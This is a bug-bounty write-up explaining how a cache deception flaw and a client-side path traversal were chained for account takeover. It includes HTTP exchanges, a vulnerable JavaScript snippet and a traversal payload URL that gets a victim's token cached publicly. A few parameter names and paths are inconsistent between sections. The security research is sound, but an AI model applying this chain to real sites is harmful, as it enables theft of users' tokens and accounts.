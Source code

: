```yaml
---
title: "Cache Deception + CSPT: Turning Non Impactful Findings into Account Takeover"
keywords: "cache deception, cspt, client-side path traversal, account takeover, bug bounty, web security, vulnerability chaining, security research"
date: 2025-08-18
lastmod: 2025-08-18
categories: [Security, Bug-Bounty, Web-Security]
tags: [cspt, cache-deception, account-takeover, web-security, bug-bounty, client-side-path-traversal, vulnerability-chaining]
toc: true
math: false
mermaid: true
---
```


Recently, while auditing the main application of a private bug bounty program, I discovered a **Client-Side Path Traversal (CSPT)** and a **Cache Deception** vulnerability. Individually, these issues were unexploitable and had no real impact. However, when chained together, I was able to demonstrate **Account Takeover**.

Before diving into the details, if you’re not familiar with these concepts, I highly recommend checking out:

**For CSPT:**
- [Matan Ber's excellent introduction to CSPT](https://matanber.com/blog/cspt-levels/){:target="_blank"} – a thorough explanation of the concept from the basics.
- [My CSPT talk in Spanish](https://www.youtube.com/watch?v=TAl1UIdZbK8){:target="_blank"} – if you speak Spanish, I cover the fundamentals and some practical scenarios here.
- [This great CSPT presentation by Maxence Schmitt](https://www.youtube.com/watch?v=O1ZN_OCfNzg&pp=ygUbIGNsaWVudCBzaWRlIHBhdGggdHJhdmVyc2Fs){:target="_blank"}

**For Cache Deception:**
- [https://portswigger.net/web-security/web-cache-deception](https://portswigger.net/web-security/web-cache-deception){:target="_blank"}


## **Cache Deception**

During my initial reconnaissance, I found the following request:

```http
GET /v1/token HTTP/1.1
Host: api.example.com
X-Auth-Token: <REDACTED>
Accept: application/json
Accept-Encoding: gzip, deflate, br
```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: no-cache, no-store, must-revalidate
X-Cache: Miss from cdn
Connection: keep-alive

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."}
```


As the endpoint was returning sensitive data, I decided to test if it was vulnerable to **Cache Deception** by adding a `.css` extension:


```http
GET /v1/token.css HTTP/1.1
Host: api.example.com
X-Auth-Token: <REDACTED>
Accept: application/json
Accept-Encoding: gzip, deflate, br
```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: max-age=86400, public
X-Cache: Hit from cdn
Connection: keep-alive

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."}
```


As you can see, the response was identical and was being cached. This showed that the endpoint was indeed vulnerable to Cache Deception.

However, it required the `X-Auth-Token` header, which browsers cannot send automatically when users visit a URL directly. This made the Cache Deception vulnerability unexploitable, as an attacker could not force a victim’s browser to include his authentication token when making the request.


## **Client-Side Path Traversal**

While reviewing the frontend code, I found the following JavaScript:


```javascript
const urlParams = new URLSearchParams(window.location.search);
const userId = urlParams.get('userId');

const apiUrl = `https://api.example.com/v1/users/info/${userId}`;

fetch(apiUrl, {
  method: 'GET',
  headers: {
    'X-Auth-Token': authToken
  }
})
.then(response => response.json())
.then(data => {
  displayUSERData(data);
})
.catch(err => console.error("Error loading user info:", err));
```

This shows a classic example of a **Client-Side Path Traversal** vulnerability. The `userId` parameter was being directly embedded into the API URL without any validation against path traversal.

<br>

```mermaid
sequenceDiagram
    participant U as USER
    participant C as BROWSER
    participant A as API

    U->>C: Visits<br/>https://example.com/profile?userId=104
    
    C->>A: GET /v1/users/info/104<br/>X-Auth-Token: [token]
    Note over C,A: Authenticated request
    
    A->>C: HTTP/1.1 200 OK<br/>Content-Type: application/json<br/>{"username":"Juan","...}
    Note over A,C: USER data returned
    
    Note over C: Display: "Welcome Juan"
```

<br>

Therefore, I could control the path of an **authenticated** request to the API. But what could I do with this control? I wasn't able to find any open redirect, nor could I manipulate the body of any API response. On its own, this CSPT was not exploitable.

## **The Chain**

At that point, I realized: what if I combined both findings?

The **CSPT** vulnerability allows me to control the path of an authenticated API request that includes the `X-Auth-Token` header, while the **Cache Deception** issue requires that header to be present in order to cache sensitive data.

In other words, **what if I used the CSPT to make an authenticated request directly to the cacheable endpoint?**

To test this, I crafted a **CSPT** payload that would traverse to the cacheable endpoint:

```
https://example.com/user?id=../../../v1/token.css
```

When a user visits this URL, the JavaScript constructs:
```
https://api.example.com/v1/users/info/../../../v1/token.css
```

Which resolves to:
```
https://api.example.com/v1/token.css
```

The key insight is that this request includes the user's **`X-Auth-Token`** header. Thus, when the CSPT triggers, it sends an authenticated request to the cacheable endpoint.

The API returns the sensitive token data, and the CDN caches the response.

Now, when anyone (including unauthenticated users) visits `https://api.example.com/v1/token.css`, the CDN serves the victim’s cached sensitive data, which includes their token, leading to account takeover.

<br>

```mermaid
sequenceDiagram
    participant A as ATTACKER
    participant C as VICTIM'S BROWSER
    participant CA as CDN
    participant API as API

    A->>C: "Click Here"
    Note over A,C: https://example.com/profile?id=<br/>../../token.css
    
    C->>CA: GET /v1/token.css<br/>X-Auth-Token: ...
    Note over C,CA: Authenticated request <br/>to cacheable endpoint
    
    CA->>API: GET /v1/token.css<br/>X-Auth-Token: ...
    
    API->>CA: {"token":"..."}
    Note over API,CA: Sensitive token data
    
    CA->>C: {"token":"..."}
    Note over CA,C: Cached sensitive token
    
    A->>CA: GET /v1/token.css
    Note over A,CA: Direct cache access<br/>(no auth required)
    
    CA->>A: {"token":"..."}
    Note over CA,A: Attacker retrieves victim's cached token
```

<br>

## **Conclusion**

I hope the attack chain was informative and provided new insights into how minor vulnerabilities, when combined, can create significant security risks, showing why it’s crucial to think beyond individual security mechanisms and never ignore seemingly unexploitable findings. In many cases, the most dangerous attacks result from chaining multiple vulnerabilities that appear harmless in isolation.

If you have any questions about the attack methodology, technical details, or want to discuss similar findings, feel free to reach out.